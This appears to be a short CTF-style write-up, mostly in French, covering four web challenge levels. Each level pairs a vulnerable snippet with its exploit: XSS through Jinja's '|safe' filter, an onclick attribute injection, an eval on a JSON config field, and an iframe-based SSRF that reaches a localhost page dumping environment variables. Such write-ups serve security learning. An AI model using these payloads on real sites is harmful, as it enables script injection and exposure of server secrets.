

# Level 1 :
## exploit :
```python
<script>alert(location)</script>  
```

## vuln :
```python
<div class="output-container">
				{{ user_input|safe }}
		</div>
```

# Level 2 :
## vuln :
```python
text="{{ comment | safe }}"  
```

## exploit :
```python
" onclick="alert(location)
	le | safe considère que l'entrée utilisateur ne peut pas être corrompu.
<div class="comments-section">
		
		<div class="comment" text="{{ comment | safe }}">
			{{ comment }}
		</div>
		
		</div>
```

# Level 3 :
## vuln :
```python
img.onload = function() {
			eval(config.config[4].event); };
		parse n'est pas safe : var config = JSON.parse(document.getElementById('configInput').value);
```

## exploit :
```python
{"config":
		[ {}, {}, {}, {}, {"url": "https://upload.wikimedia.org/wikipedia/commons/b/b6/Image_created_with_a_mobile_phone.png", "event": "alert(location)"}]
		}
```

# Level 4 : SSRF
## vuln :

```python
# Reaching this page from external IP should never be possible
if request.remote_addr == '127.0.0.1':
from os import environ
debug_env = "### ENV ###" + "<br>"
for name, value in environ.items():
	debug_env += "{0}: {1}".format(name, value) + "<br>"
return debug_env
title = request.args.get('title', 'Default Title')
```
on peut utiliser title pour faire de l'injection ici : 
```python
<div class="title">{title}</div>
```

**le but est de faire en sorte que le serveur s'envoie une réquête à lui même sur l'ip inetrne 127.0.0.1:5000, apres la prémière réquête.**

## exploit :
```python
http://localhost:5000/level4?title=%3Ciframe%20src=%22http://127.0.0.1:5000/level4%22%3E%3C/iframe%3E

```


